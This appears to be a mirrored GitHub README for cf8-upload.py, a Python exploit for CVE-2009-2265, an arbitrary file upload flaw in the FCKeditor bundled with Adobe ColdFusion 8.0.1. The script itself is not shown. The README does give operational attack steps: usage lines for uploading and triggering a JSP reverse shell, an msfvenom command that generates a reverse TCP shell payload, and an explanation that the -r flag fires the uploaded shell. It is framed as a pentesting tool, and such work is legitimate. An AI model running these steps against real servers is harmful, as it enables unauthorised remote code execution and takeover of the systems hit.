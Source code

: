 # CVE-2009-2265

cf8-upload.py | CVE-2009-2265

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/p1ckzi](https://github.com/p1ckzi) |
| Url      | [https://github.com/p1ckzi/CVE-2009-2265](https://github.com/p1ckzi/CVE-2009-2265)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cf8-upload* cve* cve-2009-2265* exploit* hacking* pentesting-tools

</details>

## Readme

# cf8-upload.py ⭐
a python3 script to exploit CVE-2009-2265.

## the exploit - CVE-2009-2265 ❗
the script exploits a vulnerability found in FCKeditor < 2.6.4.1 which was implemented into adobe coldfusion 8.0.1:  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265  
the script allows the  user to submit a file to upload to a target computer
running coldfusion 8.0.1 and execute it.
***

## prerequisites ✔
* python3
* requests module for python3. can be installed with:
```
pip3 install requests
```
***

## usage ℹ
After identifying a target running adobe coldfusion 8.0.1, run with:
```
chmod +x cf8-upload.py
./cf8-upload.py -h
```
or
```
python3 cf8-upload.py -h
```
the -h or --help option shows how to run the script with a few examples.
there are two positional arguments and a few optional arguments.
```
./cf8-upload.py --help                     
usage: cf8-upload.py [-h] [-a] [-n] [-r] address path

./cf8-upload.py exploits an LFI vulnerability in
adobe coldfusion 8.0.1

positional arguments:
  address           ip/hostname, port, sub-directories to the adobe
                    coldfusion 8.0.1 server
  path              path to file you wish to upload (eg.
                    '/path/to/file.txt')

optional arguments:
  -h, --help        show this help message and exit
  -a, --accessible  turns off features which may negatively affect
                    screen readers
  -n, --no-colour   removes colour output
  -r, --request     request webpage after successfully uploading
                    file

examples:
        ./cf8-upload.py 10.10.10.10 file.txt
        ./cf8-upload.py 10.10.10.10:8500 /path/to/reverse-shell.jsp -r
        ./cf8-upload.py hostname:8500/sub-dir /path/to/upload.zip -n
```
adobe coldfusion uses port 8500 by default but the full path to the server must be specified when executing the script.  
a default installation of coldfusion may well reside in the root directory on port 8500 in which case `x.x.x.x:8500` will most likely suffice for the address argument when executing the script.

### --accessible argument:
`cf8-upload.py` by default, prints in colour and with some additional formatting to the terminal output, however this is not always helpful for those that use screenreaders. using the `--accessible` argument will disable fancy formatting and colour from being printed to the terminal. it will also disable ascii art.

### --request argument:
this flag makes the script perform a get request to the file, and only after it has been successfully uploaded. this option is useful if the user is uploading a reverse shell of some kind to the vulnerable application and wishes to immediately trigger it. the content of the get request is not printed to the terminal and only serves to trigger the event on the server.

### reverse shell example:
adobe coldfusion is able to read from `.jsp` files so a reverse shell can be created in `msfvenom` with something as simple as:
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=[my ip] lport=[my listening port] -f raw > rshell.jsp
```
and uploaded:
```
./cf8-upload.py 10.10.10.10:8500 /path/to/rshell.jsp -r
```
***

## limitations ⚠
### timeout requests
the adobe coldfusion 8.0.1 application may not have the ability to overwrite existing files that get uploaded with the exploit script. in which case, uploading a different file with the same name as a previously uploaded file may result in timeouts during the uploading process.  
you may need to rename the file you want to upload to something else before attempting to reupload.

## notes 📝
the script was mainly an exercise in creating a short, comprehensive, self-contained program for a single exploit with both readability and accessibility in mind.
***

## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.



## Get the content

```
git clone https://github.com/p1ckzi/CVE-2009-2265
cd CVE-2009-2265
```

{% embed url="https://github.com/p1ckzi/CVE-2009-2265" %}

<figure><img src="https://avatars.githubusercontent.com/u/44880203?v=4" alt=""><figcaption><p>p1ckzi</p></figcaption></figure>
